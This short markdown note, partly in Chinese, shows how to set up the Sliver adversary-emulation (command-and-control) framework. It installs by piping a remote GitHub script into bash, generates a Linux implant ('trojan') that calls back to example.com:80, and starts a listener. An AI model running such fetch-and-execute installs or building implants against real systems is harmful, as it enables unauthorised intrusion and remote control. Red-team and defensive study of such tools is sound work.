 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(sec@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/scripts/raw/main/sliver_install.sh | bash
```

## 2. Usage

生成木马

```
[server] sliver > generate -o linux -m example.com:80
```

监听 80 端口

```
[server] sliver > mtls -l 80
```

---

Refrences

- [sliver](https://github.com/BishopFox/sliver)

